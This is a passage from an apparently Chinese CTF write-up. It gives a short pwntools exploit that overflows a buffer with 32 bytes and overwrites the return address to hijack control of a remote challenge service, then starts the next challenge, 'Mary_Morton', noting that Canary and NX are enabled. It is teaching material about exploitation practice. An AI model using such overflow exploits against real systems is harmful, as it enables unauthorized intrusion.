 **exp**

```python
from pwn import *
p = remote('111.198.29.45','30929')
payload = "B" * 32 + p64(0x080486cc)

p.recvuntil('>')
p.sendline('a')
p.recvuntil('>')
p.sendline(payload)
p.interactive()
```

4. 执行结果

![](截图\2.5.png)

### 3.Mary_Morton

![](截图\3.1.png)

1. 开启了Canary和NX
